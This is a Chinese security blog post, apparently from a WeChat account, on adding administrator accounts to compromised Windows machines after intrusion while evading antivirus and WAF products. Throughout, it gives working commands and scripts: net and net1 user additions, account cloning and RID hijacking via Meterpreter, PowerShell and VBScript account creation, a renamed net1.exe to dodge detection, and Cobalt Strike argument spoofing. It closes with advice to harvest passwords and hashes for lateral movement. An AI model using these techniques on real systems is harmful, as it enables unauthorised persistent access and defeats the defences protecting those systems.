 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1YT6mG6hFTZJpL2GiPnAlQ)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

**0x01 前言**

我们在后渗透中时常会遇到这样的环境，即使成功拿到了目标机器的 Admin/System 权限后也不能添加用户和管理员组，出现这种情况的原因有很多，如：UAC、WAF、反病毒软件或者是 net.exe 降权和安全组策略中的软件限制、应用程序控制策略等。

**0x02 反病毒禁止添加用户**

**360 杀毒：**

*   查看防护状态 -> 主动防御 ->7 层系统防护 -> 进程防护
    

**360 卫士：**

*   防护中心 ->7 层系统防护 -> 系统防护体系 -> 进程防护
    

**火绒安全软件：**

*   防护中心 -> 系统防护 -> 系统加固 -> 敏感动作防护
    

**金山毒霸：**

*   实时保护 ->7 层系统保护 -> 程序运行保护
    

**注：**毒霸仅支持 PC 用户（XP/Vista/Win7/8/10），不支持在服务器操作系统上使用。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkngTjkLKz78Thb63WuR3ficPYCJkuJ7B3oKZN3Ac6tPEyzYzJeZ7lPNA/640?wx_fmt=png)

**添加管理员用户命令：**

```
net user betasec 3had0w!@#123 /add
net localgroup administrators betasec /add
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibk3R4dqJHuBZWAqaXQtnkrBt0nPQxnYbtcNWWxScyAy5RUmXxfUPs4yg/640?wx_fmt=png)  

**0x03 绕过反病毒添加用户**

火绒、360 卫士、金山毒霸等反病毒软件主要是针对 Net.exe、Net1.exe 和添加用户行为进行防护，但是并没有对添加管理组行为进行防护，所以我们只需要绕过 Net.exe、Net1.exe 和添加用户行为就可以了。

**(1) UserClone 克隆管理员用户  
**

工具使用过于简单，自己看下参数就好，就不去详细写了，主要还是分享一些方法。

```
UserClone.exe工具或者Create-Clone.ps1脚本
post/windows/manage/rid_hijack（RID劫持攻击）
post/windows/manage/enable_support_account（针对XP和2003）
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibktAMk01o5WJGaXRVutgyQknMUzWCcAkR77ibN97b2LZmyIWlnX9IIebQ/640?wx_fmt=png)

还有一个克隆 SAM 注册表的 Powershell 脚本 Create-Clone.ps1，不过 360 安全卫士的进程防护还会对我们调用 Powershell.exe 执行 ps1 脚本的行为进行拦截。

虽然会被拦截，但是我们还是可以在 Powershell 下执行这个 ps1 脚本，后边我们也会讲如何去绕过反病毒的进程防护和敏感动作防护来执行 Powershell。

```
meterpreter > use powershell
meterpreter > powershell_import "/var/www/html/Create-Clone.ps1"
meterpreter > powershell_shell
PS > Create-Clone -u betasec -p 3had0w!@#123
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkFUNByTSe0IdAbDMicM7c07o0sShLBs4Ric2EgE2FSAUloF1STATqZhmw/640?wx_fmt=png)

**(2) Powershell 添加管理员用户  
**

New-LocalUser、Add-LocalGroupMember 为 Windows10/2016 及以上操作系统 Powershell5.1 中的 Microsoft.PowerShell.LocalAccounts 模块内置命令，可用来添加用户和管理员组，更多命令请参考微软文档。

*   https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.localaccounts
    

这种方式虽能绕过 360 卫士和金山毒霸的 Net.exe 添加用户行为，但是在测试过程中发现有时在 Cmdshell 下直接执行以下命令可能会出现 “PowerShell 命令执行攻击” 拦截。

```
New-LocalUser betasec -Password (ConvertTo-SecureString -String 'pass!@#!23' -AsPlainText -Force)
Add-LocalGroupMember -Group "administrators" -Member "betasec"
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkkaib1JKd8xcnhYT8HED5sqz5ghQwmlCibL4GTe4oDUhQWPys5mPgaMEw/640?wx_fmt=png)

**(3) Vbscript API 添加管理员用户**

**1. API_Shell.Users 组件**

*   XP/Win2k3
    

```
Set o=CreateObject( "Shell.Users" )
Set z=o.create("betasec")
z.changePassword "pass!@#!23",""
z.setting("AccountType")=3
```

**2. ADSI_WinNT 对象**

*   XP/Win2k3/Win7/Win2k8/Win8/Win10/2012/2016
    

```
set wsnetwork=CreateObject("WSCRIPT.NETWORK")
os="WinNT://"&wsnetwork.ComputerName
Set ob=GetObject(os)
Set oe=GetObject(os&"/Administrators,group")
Set od=ob.Create("user","betasec")
od.SetPassword "pass!@#!23"
od.SetInfo
Set of=GetObject(os&"/betasec",user)
oe.add os&"/betasec"
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkpYWLIXDOo7kv79FuUyK3MJqUm8fcdsO7tGvdJtCKF0uRcwuKXYibTjw/640?wx_fmt=png)

**(4) Windows API 添加管理员用户**

项目地址：https://github.com/newsoft/adduser，在编译 EXE、DLL 时需要先手动添加 ADVAPI32.lib、NETAPI32.lib 两个库，否则可能会出现报错，执行 adduser.dll 时是没有回显的。

*   项目属性 -> 链接器 -> 输入 -> 附加依赖项 ->ADVAPI32.lib、NETAPI32.lib
    
*   项目属性 -> 常规 -> 配置类型 -> 动态库 (.dll)
    

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkrJdV0N4aDtnFdLkMial4gqMn76Pcwiad40HS0D5NCJXfuka6bPZeJFYw/640?wx_fmt=png)

```
C:\Users\*******\Desktop\Add-User> adduser.exe
C:\Users\*******\Desktop\Add-User> rundll32.exe adduser.dll,CreateAdminUser
Username：90sec$  Password：pass!@#!23
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkIAkxKibS9jn270aZaTY6vuftwQL67kEav2ercGzBfC76Zas75cZpTicA/640?wx_fmt=png)

**(5) Copy Net1.exe 添加管理员用户**

只能拷贝 System32 和 SysWOW64 目录下的 net1.exe，net.exe 不行哦，而且也只能绕过火绒安全软件和服务器安全狗的进程行为控制（net.exe、net1.exe），360 卫士和金山毒霸会拦截。

```
copy c:\windows\system32\net1.exe C:\ProgramData\net1.txt
C:\ProgramData\net1.txt user 90sec$ pass!@#!23 /add & C:\ProgramData\net1.txt localgroup administrators 90sec$ /add
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkiauQWfw8EdqStz5mibcZ0d7wcxYp7c0EwAZeaWUibo3JKAbIagtyicUrOg/640?wx_fmt=png)

**(6) Cobaltstrike argue 进程参数欺骗**

argue 进程参数欺骗后可使用 run 或 execute 来执行 net1 命令添加一个管理员用户，全程无拦截，而用 shell 执行 net1 命令时仍然会被拦截，因为它还是通过创建一个 cmd.exe 子进程来执行的。

```
argue 进程参数欺骗
argue [command] [fake arguments]
argue 命令 假参数 欺骗某个命令参数
argue [command]
argue 命令 取消欺骗某个命令参数

beacon> argue net1 /bypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypass
beacon> run net1 user betasec 3had0w!@#123 /add 
beacon> run net1 localgroup administrators betasec /add
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfoK60kKZShPgzibJNic3ibaibkwIVGibiaYsePSuWBNkGcoe1QE8EpWEUcP1mMcxFyGDiaLq9O6wwG6G1Bw/640?wx_fmt=png)

**注意事项：**

(1) 个人建议直接获取目标机器的明文密码和哈希值，可以利用这些用户密码信息继续进行横向渗透。并不推荐直接添加管理员用户和修改默认管理员用户的密码，因为这样非常容易被发现，常规检测隐藏用户方式和各种 WAF、反病毒、安全设备的拦截日志中都能看出被入侵的痕迹。

(2) 方法是死的，但人是活的，在实战中只要灵活运用还是很容易绕过的。D 盾、云锁、护卫神、服务器安全狗等 WAF 软件主要对 Administrators 管理组进行防护（默认状态），服务器安全狗也可以设置对 Net.exe、Net1.exe 程序和 SAM 注册表进行防护，这样能更好的防止被添加管理员用户。

(3) 还有就是一些 WAF 对 “执行系统命令” 的防护，如：D 盾不允许在 w3wp.exe 下创建子进程，网站安全狗的禁止 IIS 执行程序（仅允许带有白名单参数执行命令），云锁的操作系统加固（对 w3wp.exe 进程防护，不允许在 IIS 的 Webshell 下执行添加用户和管理组）等等，不过都是可以绕过的。